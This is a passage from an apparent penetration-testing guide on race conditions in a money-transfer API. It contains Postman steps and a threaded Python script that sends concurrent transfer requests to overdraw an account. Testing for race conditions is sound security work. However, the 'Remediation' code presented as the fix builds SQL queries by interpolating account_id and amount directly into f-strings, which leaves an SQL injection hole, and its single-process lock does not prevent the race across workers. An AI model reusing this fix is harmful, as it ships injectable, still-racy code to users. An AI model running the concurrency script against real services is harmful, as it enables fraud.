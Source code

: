 **Postman Commands**:
- **Command 1**: Run collection:
  ```
  Collection -> Add POST http://example.com/api/v1/transfer -> Body: {"account_id": 123, "amount": 100.00} -> Collection Runner -> Iterations: 5, Delay: 0ms -> Run
  ```
- **Command 2**: Single request:
  ```
  New Request -> POST http://example.com/api/v1/transfer -> Body: {"account_id": 123, "amount": 100.00} -> Send
  ```

**Example Vulnerable Response**:
```json
[{"status": "success", "balance": 0.00}, {"status": "success", "balance": -100.00}]
```

**Remediation**:
- Implement mutex locks (Flask):
  ```python
  from threading import Lock
  lock = Lock()
  def transfer(account_id, amount):
      with lock:
          account = db.query(f"SELECT balance FROM accounts WHERE id={account_id} FOR UPDATE")
          if account.balance < amount:
              raise ValueError("Insufficient funds")
          db.execute(f"UPDATE accounts SET balance = balance - {amount} WHERE id={account_id}")
  ```

**Tip**: Save Postman collection runs as exports or screenshots. Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., API responses).

### 4. Automate Concurrent Requests with Python Requests

**Objective**: Simulate high-concurrency scenarios to detect race conditions.

**Steps**:
1. **Write Script**:
   - Use threading to send concurrent requests.
2. **Run Script**:
   - Execute and analyze responses.
3. **Verify Findings**:
   - Cross-check with Burp Suite.

**Python Script**:
```python
import requests
import threading
import sys

url = 'http://example.com/api/v1/transfer'
data = {'account_id': '123', 'amount': 100.00}

def send_request():
    try:
        response = requests.post(url, json=data, timeout=5)
        print(f"Status: {response.status_code}, Response: {response.text[:100]}")
    except requests.RequestException as e:
        print(f"Error: {e}")

try:
    threads = [threading.Thread(target=send_request) for _ in range(10)]
    for t in threads:
        t.start()
    for t in threads:
        t.join()
except Exception as e:
```